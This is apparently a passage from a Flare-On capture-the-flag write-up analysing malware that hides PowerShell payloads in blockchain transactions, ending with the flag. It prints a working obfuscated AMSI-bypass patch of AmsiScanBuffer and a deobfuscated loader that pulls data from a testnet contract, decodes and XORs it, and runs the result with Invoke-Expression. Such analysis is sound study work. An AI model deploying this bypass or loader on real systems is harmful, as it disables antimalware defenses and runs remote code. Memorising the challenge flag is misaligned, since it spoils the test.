RVRVRkpaMEZPUVVGdlFVcEJRalZCUjFsQlltZENjVUZIU1VGSlFVRTVRVU5CUVZkM1FrTkJTR3RCWkVGQ2JFRkdjMEZZVVVKa1FVTkJRVXRCUVd0QlIyZEJXVkZDYzBGSWEwRk1RVUZyUVVkUlFWcEJRblZCUjJOQlRFRkJhMEZJWjBGYVFVSnNRVWhGUVV4QlFXdEJSekJCV1dkQ2VVRkhXVUZNUVVGeVFVTlJRVnBSUWpOQlIwVkJZMUZCYzBGRGMwRktRVUp0UVVoRlFXVm5RakJCUTJ0QlJGRkJTMEZHYzBGVmQwSTFRVWhOUVdSQlFteEJSekJCVEdkQ1UwRklWVUZpWjBJd1FVZHJRV0pSUW14QlF6UkJVMUZDZFVGSVVVRmFVVUo1UVVjNFFXTkJRbFJCUjFWQlkyZENNa0ZIYTBGWmQwSnNRVWhOUVV4blFrNUJSMFZCWTJkQ2VrRkhaMEZaVVVKelFVWXdRVTluUVRaQlJVMUJZbmRDZDBGSWEwRkxRVUZyUVVoclFWcG5RblZCUjI5QldXZEJjMEZEUVVGTlFVRnpRVU5CUVVwQlFuVkJSMjlCWlZGQ00wRkhZMEZpZDBGelFVTkJRVTVuUVhCQlFUMDlJaWtwZkdsbGVBPT0&oeol=CR), We got a PowerShell script that executes another encoded base64 script. Let's decrypt it, It is a script to inject process

```
#Rasta-mouses Amsi-Scan-Buffer patch \n
$fhfyc = @"
using System;
using System.Runtime.InteropServices;
public class fhfyc {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr ixajmz, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $fhfyc

$nzwtgvd = [fhfyc]::LoadLibrary("$(('ãmsí.'+'dll').NOrmAlizE([cHaR](70*31/31)+[char](111)+[Char]([Byte]0x72)+[CHaR](109+60-60)+[ChaR](54+14)) -replace [chaR]([bYTE]0x5c)+[CHar]([bYTE]0x70)+[ChAR](123+2-2)+[CHar]([byte]0x4d)+[ChAR]([bYTE]0x6e)+[char]([byTE]0x7d))")
$njywgo = [fhfyc]::GetProcAddress($nzwtgvd, "$(('ÁmsìSc'+'änBuff'+'er').NOrmALIzE([CHaR]([bYTE]0x46)+[Char]([bYTe]0x6f)+[cHAr]([bYTE]0x72)+[CHar](109)+[cHaR]([ByTe]0x44)) -replace [chAR](92)+[Char]([byTE]0x70)+[chaR]([bYTE]0x7b)+[chaR]([BYtE]0x4d)+[char](21+89)+[chaR](31+94))")
$p = 0
[fhfyc]::VirtualProtect($njywgo, [uint32]5, 0x40, [ref]$p)
$haly = "0xB8"     ;mov    eax,0x80070057
$ddng = "0x57"     ;ret
$xdeq = "0x00"
$mbrf = "0x07"
$ewaq = "0x80"
$fqzt = "0xC3"
$yfnjb = [Byte[]] ($haly,$ddng,$xdeq,$mbrf,+$ewaq,+$fqzt)
[System.Runtime.InteropServices.Marshal]::Copy($yfnjb, 0, $njywgo, 6)
```

I looked for more transactions and found another PowerShell script in block `44335452`




After decoding the base64, it turns out to be a PowerShell script, but it’s heavily obfuscated. Using [PowerDecode](https://github.com/Malandrone/PowerDecode), I was able to deobfuscate it, revealing the original script, which now looks quite clear

```ps1
# Set endpoint for testnet
Set-Variable -Name testnet_endpoint -Value (" ")

# Define the JSON-RPC request body
Set-Variable -Name _body -Value '{
    "method": "eth_call",
    "params": [
        { "to": "$address", "data": "0x5c880fcb" }, 
        BLOCK
    ],
    "id": 1,
    "jsonrpc": "2.0"
}'

# Send the request and get the response result
Set-Variable -Name resp -Value ((Invoke-RestMethod -Method 'Post' -Uri $testnet_endpoint -ContentType "application/json" -Body $_body).result)

# Remove the '0x' prefix from the response
Set-Variable -Name hexNumber -Value ($resp -replace '0x', '')

# Convert hex to bytes
Set-Variable -Name bytes0 -Value (
    0..($hexNumber.Length / 2 - 1) | ForEach-Object {
        Set-Variable -Name startIndex -Value ($_ * 2)
        [Convert]::ToByte($hexNumber.Substring($startIndex, 2), 16)
    }
)
    
# Convert bytes to UTF8 string and trim specific substring
Set-Variable -Name bytes1 -Value ([System.Text.Encoding]::UTF8.GetString($bytes0))
Set-Variable -Name bytes2 -Value ($bytes1.Substring(64, 188))

# Convert from base64 to bytes
Set-Variable -Name bytesFromBase64 -Value ([Convert]::FromBase64String($bytes2))

# Convert bytes to ASCII string
Set-Variable -Name resultAscii -Value ([System.Text.Encoding]::UTF8.GetString($bytesFromBase64))

# Convert each byte to hex format
Set-Variable -Name hexBytes -Value ($resultAscii | ForEach-Object { '{0:X2}' -f $_ })

# Join hex bytes into a single string
Set-Variable -Name hexString -Value ($hexBytes -join ' ')
# Write-Output $hexString

# Remove spaces from hexBytes to prepare for next conversion
Set-Variable -Name hexBytes -Value ($hexBytes -replace " ", "")

# Convert hex string to bytes
Set-Variable -Name bytes3 -Value (
    0..($hexBytes.Length / 2 - 1) | ForEach-Object {
        Set-Variable -Name startIndex -Value ($_ * 2)
        [Convert]::ToByte($hexBytes.Substring($startIndex, 2), 16)
    }
)

# Convert the resulting bytes to a string
Set-Variable -Name bytes5 -Value ([System.Text.Encoding]::UTF8.GetString($bytes3))

# Define the key for XOR operation
Set-Variable -Name keyBytes -Value ([Text.Encoding]::ASCII.GetBytes("FLAREON24"))

# Perform XOR operation
Set-Variable -Name resultBytes -Value (@())
for (Set-Variable -Name i -Value 0; $i -lt $bytes5.Length; $i++) {
    $resultBytes += ($bytes5[$i] -bxor $keyBytes[$i % $keyBytes.Length])
}

# Convert the result to a string
Set-Variable -Name resultString -Value ([System.Text.Encoding]::ASCII.GetString($resultBytes))

# Define the command to create the flag file
Set-Variable -Name command -Value ("tar -x --use-compress-program 'cmd /c echo $resultString > C:\\flag' -f C:\\flag")

# Execute the command
Invoke-Expression $command
```

The script above takes input data, decodes it from base64, then XORs it with `FLAREON24`. I tried other transactions and managed to decode several strings. The flag was found in block [`43148912`
](https://testnet.bscscan.com/tx/0xdbf0e117fb3d4db0cd746835cfc4eb026612ac36a80f9f0f248dce061d90ae54)



Flag: `N0t_3v3n_DPRK_i5_Th15_1337_1n_Web3@flare-on.com`

